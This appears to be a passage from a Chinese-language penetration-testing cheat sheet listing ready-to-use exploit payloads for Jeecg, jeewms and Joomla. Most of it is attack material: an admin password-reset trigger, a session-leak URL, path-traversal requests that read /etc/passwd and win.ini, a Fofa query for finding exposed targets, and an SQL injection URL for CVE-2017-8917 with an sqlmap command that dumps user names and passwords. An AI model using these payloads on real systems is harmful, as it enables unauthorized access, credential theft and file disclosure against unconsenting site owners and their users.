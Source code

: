 **密码重置**
- POC | Payload | exp
    - 当访问loginController.do?goPwdInit 或 pwdInit时，即使用户已经修改过密码，admin的密码仍会被重置为123456。

**sessionid 信息泄露**
- POC | Payload | exp
    ```
    http://localhost:8080/webpage/system/druid/websession.json
    ```

**文件上传**
- POC | Payload | exp
    ```
    /jeecgFormDemoController.do?commonUpload
    ```

---

### jeewms

> Fofa: body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

**未授权任意文件读取漏洞**
- POC | Payload | exp
    ```
    http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini
    http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd
    ```

---

### Joomla

> 官网 : https://www.joomla.org/

**相关工具**
- [rezasp/joomscan](https://github.com/rezasp/joomscan) - 效果很差,没啥用

**CVE-2017-8917 Joomla! 3.7 Core SQL 注入**
- 简介

    Joomla 于5月17日发布了新版本 3.7.1,本次更新中修复一个高危 SQL 注入漏洞,成功利用该漏洞后攻击者可以在未授权的情况下进行 SQL 注入。

- 影响版本
    - joomla 3.7.0

- 相关文章
    - [Joomla! 3.7 Core SQL 注入 (CVE-2017-8917)漏洞分析](https://paper.seebug.org/305/)

- POC | Payload | exp
    ```
    http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
    ```

    sqlmap payload
    ```bash
    sqlmap -u "http://192.168.1.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
    ```
